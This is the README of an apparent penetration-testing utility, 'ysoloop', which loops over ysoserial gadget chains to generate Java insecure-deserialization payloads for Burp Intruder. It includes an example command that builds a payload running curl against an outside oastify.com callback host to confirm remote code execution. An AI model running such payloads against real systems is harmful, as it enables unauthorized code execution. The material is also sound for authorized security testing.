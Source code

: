 # ysoloop
Utilities for insecure serialization

This repository was created for script utilities for exploiting insecure serializations.

YsoLoop.py is intended to generate all payloads that can be used in the insecure serialization exploitation process. It uses "wordlist.txt", which is a base for all possible YSoSerial payloads.

With the output of this script, it is possible to use it as a payload in tools such as Intruder (BurpSuite), or custom scripts.

Usage recommendation:

**python3 YsoLoop.py > payloads.txt**

Ps.1: To run the script, it must be located in the same directory as "ysoserial-all.jar" e a "wordlist.txt"
    - Link Ysoserial: https://github.com/frohoff/ysoserial/releases

Ps.2: The payload command must be adjusted. Ex: base_command = "java -jar ysoserial-all.jar {} 'curl http://abcdefghijklm.oastify.com' | base64 -w0"

*Script still in the process of being improved.


Credits: https://github.com/frohoff/ysoserial
